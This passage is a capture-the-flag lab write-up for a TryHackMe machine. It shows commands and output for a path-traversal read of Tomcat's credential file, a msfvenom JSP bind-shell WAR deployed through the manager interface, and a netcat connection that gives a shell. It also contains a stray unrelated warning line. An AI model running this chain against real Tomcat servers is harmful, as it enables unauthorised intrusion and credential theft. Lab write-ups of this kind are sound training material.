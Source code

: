 ```console
m3ga@kali:~$ curl --path-as-is "http://10.10.43.6:8888/../../../../../../opt/tomcat/conf/tomcat-users.xml"
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="[REDACTED]" roles="manager-script"/>

</tomcat-users>
```

We can successfully login with these credentials.

![](<Pasted image 20241012135413.png>){: w="700" h="300" .center }

### Shell as tomcat
Trying to get a **reverse-shell** on the target, I was unsuccessful. However, trying a `bind-shell` did the trick.

First, we create a malicious `.war` file and deploy it on the server. 

```console
m3ga@kali:~/tryhackme/Backtrack$ msfvenom -p java/jsp_shell_bind_tcp rhost=10.10.43.6 lport=4545 -f war -o ./m3ga.war
Payload size: 1123 bytes
Final size of war file: 1123 bytes
Saved as: ./m3ga.war
m3ga@kali:~/tryhackme/Backtrack$ curl --upload-file ./m3ga.war -u 'tomcat:[REDACTED]' 'http://10.10.43.6:8080/manager/text/deploy?path=/m3ga'
OK - Deployed application at context path [/m3ga]
```

Navigating to the location causes the payload to be executed and the port opened on the target.

```console
m3ga@kali:~/tryhackme/Backtrack$ curl http://10.10.43.6:8080/m3ga
```

Now we can simply connect to the port with netcat. We get a shell as the user `tomcat`. 
 
```console
m3ga@kali:~/tryhackme/Backtrack$ nc -nv 10.10.43.6 4545
(UNKNOWN) [10.10.43.6] 4545 (?) open
id
uid=1002(tomcat) gid=1002(tomcat) groups=1002(tomcat)

wilbur@Backtrack:/opt/tomcat$ ls -la
...
drwxr-x--- 2 tomcat tomcat  4096 Mar  9  2024 bin
drwxr-x--- 3 tomcat tomcat  4096 Mar  9  2024 conf
-rw-r--r-- 1 tomcat tomcat    38 Mar  9  2024 flag1.txt
...
tomcat@Backtrack:/opt/tomcat$ cat flag1.txt 
THM{[REDACTED]}
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that